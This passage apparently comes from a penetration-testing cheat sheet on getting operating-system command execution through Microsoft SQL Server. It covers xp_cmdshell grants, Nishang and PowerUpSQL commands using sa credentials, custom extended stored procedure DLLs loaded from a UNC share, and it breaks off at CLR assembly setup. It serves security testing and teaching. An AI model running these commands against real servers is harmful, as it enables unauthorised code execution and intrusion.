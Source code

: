     exec sp_configure 'show advanced options', '1'
    RECONFIGURE
    exec sp_configure 'xp_cmdshell', '0'
    RECONFIGURE
    ```
- Grant permissions to xp_cmdshell - Let's say we have a user that is not a sysadmin, but is a user of the master database and we nt to grant access to run xp_cmdshell:
    ```sql
    -- add user test to the master database
    USE [master]
    GO
    CREATE USER [test] FOR LOGIN [test]
    GO
    -- grant execute access to xp_cmdshell
    GRANT EXEC ON xp_cmdshell TO [test]
    ```
- Nishang: `Execute-Command-MSSQL -ComputerName instance -UserName sa -Password pw`
- PowerUpSQL: `Invoke-SQLOSCmd -Username sa -Password pw -Instance instance -Command whoami`

### Custom Extended Stored Procedures

- DLL which acts as an extension to SQL server
- `sysadmin` privileges are required to register
- Executes with the privileges of the service account
- DLL can have any file extension
- Can also be loaded from UNC path or Webdav
- Sample DLL Code:
  - <https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/xp_evil_template.cpp>
  - <https://stackoverflow.com/questions/12749210/how-to-create-a-simple-dll-for-a-custom-sql-server-extended-stored-procedure>
- If `xp_calc.dll` has a function called `xp_calc`:\
    ```sql
    sp_addextendedproc 'xp_calc', 'C:\mydll\xp_calc.dll'
    EXEC xp_calc
    sp_dropextendedproc 'xp_calc'
    ```
    ```powershell
    Create-SQLFileXpDll -OutFile C:\fileserver\xp_calc.dll -Command "calc.exe" -ExportName xp_calc
    Get-SQLQuery -UserName sa -Password pw -Instance instance -Query "sp_addextendedproc 'xp_calc', '\\192.168.15.2\fileserver\xp_calc.dll'"
    Get-SQLQuery -UserName sa -Password Password1 -Instance instance -Query "EXEC xp_calc"
    ```
- Listing existing Custom Extended Stored Procedures:
    ```powershell
    Get-SQLStoredProcedureXP -Instance instance -Verbose
    ```

### Custom CLR Assemblies

- CLR (`Common Language Runtime`) is a run-time environment provided by the `.NET framework`
- SQL Server CLR integration allows writing stored procedures and other things by importing a DLL.
- CLR integration is off by default
- `sysadmin` privileges are required by-default.
- Create assembly, alter assembly or `DDL_Admin` role can also use it.
- Execution takes place with privileges of the service account
- DLL can be loaded from a local path or a UNC path
- References
  - <https://docs.microsoft.com/en-us/dotnet/framework/data/adonet/sql/introduction-to-sql-server-clr-integrationv>
  - <https://blog.netspi.com/attacking-sql-server-clr-assemblies/>
- Enable CLR:
    ```sql
    use msdb